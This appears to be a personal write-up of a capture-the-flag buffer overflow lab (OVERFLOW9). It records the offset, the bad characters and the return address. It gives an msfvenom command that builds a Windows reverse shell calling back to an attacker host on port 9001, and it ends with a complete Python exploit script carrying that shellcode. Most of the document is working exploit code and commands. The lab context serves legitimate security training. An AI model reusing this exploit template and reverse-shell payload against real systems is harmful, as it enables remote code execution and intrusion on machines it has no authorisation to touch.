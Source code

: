 ## fuzzing

![[Pasted image 20210530155826.png]]

## offset 

EIP: 35794234

offset: 1514

![[Pasted image 20210530160054.png]]

## bad chars

ESP: 017FFA30

bad chars: 	`\x00\x04\x3e\xe1`

![[Pasted image 20210530160324.png]]

## jmp point

`625011AF`

little endian: 	`\xaf\x11\x50\x62`

## exploit

`msfvenom -p windows/shell_reverse_tcp LHOST=10.17.4.208 LPORT=9001 EXITFUNC=thread -f c -a x86 --platform windows -b "\x00\x04\x3e\xe1"`

here the rev connection is made but no shell so it might be due to a char which is hidden due to the preceding one.

re-checking 

## bad char - re check

remove the bad chars from our list (python script)
and create a new byte array
`!mona bytearray -b "\x00\x04\x3e\xe1"`

![[Pasted image 20210530161806.png]]

ESP:  019EFA30

and checking we got another bad char 

![[Pasted image 20210530162030.png]]

bad chars: `\x00\x04\x3e\x3f\xe1`

## jmp - re

`625011AF`

little endian: 	`\xaf\x11\x50\x62`

## exploit - re

`msfvenom -p windows/shell_reverse_tcp LHOST=10.17.4.208 LPORT=9001 EXITFUNC=thread -f c -a x86 --platform windows -b "\x00\x04\x3e\x3f\xe1"`

and this time we successfully got the proper shell

![[Pasted image 20210530162427.png]]

```python
import socket

ip = "10.10.171.241"
port = 1337

prefix = "OVERFLOW9 "
offset = 1514
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = (
"\xba\xc4\xc5\xd3\x40\xda\xde\xd9\x74\x24\xf4\x5d\x2b\xc9\xb1"
"\x52\x83\xed\xfc\x31\x55\x0e\x03\x91\xcb\x31\xb5\xe5\x3c\x37"
"\x36\x15\xbd\x58\xbe\xf0\x8c\x58\xa4\x71\xbe\x68\xae\xd7\x33"
"\x02\xe2\xc3\xc0\x66\x2b\xe4\x61\xcc\x0d\xcb\x72\x7d\x6d\x4a"
"\xf1\x7c\xa2\xac\xc8\x4e\xb7\xad\x0d\xb2\x3a\xff\xc6\xb8\xe9"
"\xef\x63\xf4\x31\x84\x38\x18\x32\x79\x88\x1b\x13\x2c\x82\x45"
"\xb3\xcf\x47\xfe\xfa\xd7\x84\x3b\xb4\x6c\x7e\xb7\x47\xa4\x4e"
"\x38\xeb\x89\x7e\xcb\xf5\xce\xb9\x34\x80\x26\xba\xc9\x93\xfd"
"\xc0\x15\x11\xe5\x63\xdd\x81\xc1\x92\x32\x57\x82\x99\xff\x13"
"\xcc\xbd\xfe\xf0\x67\xb9\x8b\xf6\xa7\x4b\xcf\xdc\x63\x17\x8b"
"\x7d\x32\xfd\x7a\x81\x24\x5e\x22\x27\x2f\x73\x37\x5a\x72\x1c"
"\xf4\x57\x8c\xdc\x92\xe0\xff\xee\x3d\x5b\x97\x42\xb5\x45\x60"
"\xa4\xec\x32\xfe\x5b\x0f\x43\xd7\x9f\x5b\x13\x4f\x09\xe4\xf8"
"\x8f\xb6\x31\xae\xdf\x18\xea\x0f\x8f\xd8\x5a\xf8\xc5\xd6\x85"
"\x18\xe6\x3c\xae\xb3\x1d\xd7\xdb\x52\x19\xf7\xb4\x56\x21\xd4"
"\x6d\xde\xc7\x70\x7e\xb6\x50\xed\xe7\x93\x2a\x8c\xe8\x09\x57"
"\x8e\x63\xbe\xa8\x41\x84\xcb\xba\x36\x64\x86\xe0\x91\x7b\x3c"
"\x8c\x7e\xe9\xdb\x4c\x08\x12\x74\x1b\x5d\xe4\x8d\xc9\x73\x5f"
"\x24\xef\x89\x39\x0f\xab\x55\xfa\x8e\x32\x1b\x46\xb5\x24\xe5"
"\x47\xf1\x10\xb9\x11\xaf\xce\x7f\xc8\x01\xb8\x29\xa7\xcb\x2c"
"\xaf\x8b\xcb\x2a\xb0\xc1\xbd\xd2\x01\xbc\xfb\xed\xae\x28\x0c"
"\x96\xd2\xc8\xf3\x4d\x57\xe8\x11\x47\xa2\x81\x8f\x02\x0f\xcc"
"\x2f\xf9\x4c\xe9\xb3\x0b\x2d\x0e\xab\x7e\x28\x4a\x6b\x93\x40"
"\xc3\x1e\x93\xf7\xe4\x0a"
)

postfix = ""

buffer = prefix + overflow + retn + padding + payload  + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```